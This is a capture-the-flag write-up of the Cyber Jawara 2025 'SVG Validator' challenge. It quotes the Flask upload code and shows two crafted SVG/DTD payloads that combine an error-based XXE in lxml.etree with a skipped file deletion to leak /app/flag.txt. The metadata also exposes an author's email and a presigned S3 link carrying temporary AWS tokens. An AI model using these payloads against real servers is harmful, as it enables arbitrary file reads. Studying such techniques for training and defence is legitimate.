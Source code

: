 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466R2B2QXEW%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T141353Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJHMEUCICkEDGvnmEbZ0jHSzWzFfeUxTZ83KunyVJ6fKxnCp6UTAiEAt8M1EaL5SiDXFI5%2BB%2BXe%2BsmOIc0DNLKJW8EPaYBh0kkqiAQI7%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDBrXuzH0auMpzjOLFSrcAzK8a6PjyUianfW7G6%2BXFZcTjDBO1rH7n8n%2FAnhgWQvr6ACiM2oEHu%2BBdhBxHQmIhi8Goy7xoI0VdyiUUzdizH8HWm%2B00rG3LN9zOZKnf5jkvbntNN9%2FGGCz2Bsfo%2BtisYF%2BnYdAXQfJ67%2BzzhbE7Qg5Qp0pi3py2w7soxRQC%2FXyFnBT2Cju9dNCLG%2BNw1VWgwcGGhhoKgwByO8Ol1RiBoakEGCpIk0Nfa%2BFYSKdGU%2BoIWXtHaG6TIrchpy0mpri4JWExUQb2o6wsYdEXOucv%2FeAV1GvIJdnJKxsuYch3SdgixZ0DjlTuXQ0OZzvzD%2FEfHhjUFsQSxLA1yof0zti%2FRNfAk0rMLTFoBA4oxZVVG14TWbYJl0rjkjUkXuBw4wakPNn%2BeA8pOOIsXG2BBNwwdBm0Vj9TmH9BNzYHikkJ23wPgtZoLxcKjqlC%2BQjhyRLVIU5YruzCk4I8ftXk80EXYwsaQ6Xip4XkaM21Apm6yqhffpwizeaHy9gE3RmXC94YPMHP%2FyngUtlXh1fXf9ES%2BfPonkL4X93bO3%2F0XpHGgygIeAgDdlasvniDU5xVSkLhviD6HxdJ2DzgzFl0FVGVgXuOw0hvaLxIMHE9NvuGyVIUyAF8Jd72Yh9vTRDMNnxwcEGOqUBFPm7a6gVfKs%2Fj0DyS2XzkUGYjSfJbQrUcbdzyzFS17BgaqGIhm2by9w0HcEoAAUod9ozg4CZITWmuXclyvJeW9l8tE2WXiOJrMSj1LZ9N40iD7dD%2FZT6VPzJivvNJFDhVjAuUBefMr93YoTzz%2FTFt7fsZGx5HnBspRPfdg7BADd1JqB4FQFQLxFDfCcUX7BVklSYoCv%2FZIc%2BjwOFQVFPYvyyeKIm\&X-Amz-Signature=3ff9bfa765c39cbe7bf8c6418e5ff122cf0c50062d3bcada1d503b8b3a069b98\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)

